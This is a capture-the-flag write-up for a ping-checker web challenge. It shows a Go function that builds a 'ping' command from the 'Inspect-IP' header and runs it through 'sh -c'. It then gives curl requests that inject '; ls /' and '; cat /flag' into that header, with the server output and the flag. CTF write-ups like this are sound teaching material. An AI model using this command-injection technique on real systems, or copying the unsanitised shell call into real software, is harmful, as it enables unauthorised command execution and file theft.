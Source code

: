 # Description

"Small app, big hole. You know the drill: go break it.
The challenge is accessible with this url."

# Solution

Inside ```index.html``` there's an option to ping another IP thant ours:

```html
<h3>Can I check another IP address than mine?</h3>
<p>Yes, set the HTTP header <code>Inspect-IP</code> with your client</p>
```

And the input is not properly sanitized:

```go
func IsItDown(address string) (string, error) {
	ctx, cancel := context.WithTimeout(context.Background(), 200*time.Millisecond)
	defer cancel()

	pingCommand := fmt.Sprintf("ping -c 1 -W 150 %s", address)
	command := exec.CommandContext(ctx, "sh", "-c", pingCommand)
	trace, err := command.Output()
	return string(trace), err
}
```

So adding another command after the ping command argument is possible:

```bash
curl -H "Inspect-IP: 8.8.8.8 ; ls /  /flag" https://0yp0oivpnun7jthof6si6foppfkmlf.challenge.grehack.fr/is-it-down
{"ip":"8.8.8.8 ; ls /  /flag","down":false,"trace":"PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.\n64 bytes from 8.8.8.8: icmp_seq=1 ttl=53 time=1.48 ms\n\n--- 8.8.8.8 ping statistics ---\n1 packets transmitted, 1 received, 0% packet loss, time 0ms\nrtt min/avg/max/mdev = 1.484/1.484/1.484/0.000 ms\n/flag\n\n/:\nbin\ndev\netc\nflag\nhome\nlib\nmedia\nmnt\nopt\nproc\nroot\nrun\nsbin\nsrv\nsys\ntmp\nusr\nvar\n"}%
```

```bash
curl -H "Inspect-IP: 8.8.8.8; cat /flag" https://0yp0oivpnun7jthof6si6foppfkmlf.challenge.grehack.fr/is-it-down
{"ip":"8.8.8.8; cat  /flag","down":false,"trace":"PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.\n64 bytes from 8.8.8.8: icmp_seq=1 ttl=53 time=1.41 ms\n\n--- 8.8.8.8 ping statistics ---\n1 packets transmitted, 1 received, 0% packet loss, time 0ms\nrtt min/avg/max/mdev = 1.409/1.409/1.409/0.000 ms\nGH19{challenges_for_the_ctf_will_not_be_that_easy}\n"}%
```

It's also possible to strip the IP address completely:

```bash
curl -H "Inspect-IP: ; cat  /flag" https://0yp0oivpnun7jthof6si6foppfkmlf.challenge.grehack.fr/is-it-down 
{"ip":"; cat  /flag","down":false,"trace":"GH19{challenges_for_the_ctf_will_not_be_that_easy}\n"}
```

flag = ```GH19{challenges_for_the_ctf_will_not_be_that_easy}```
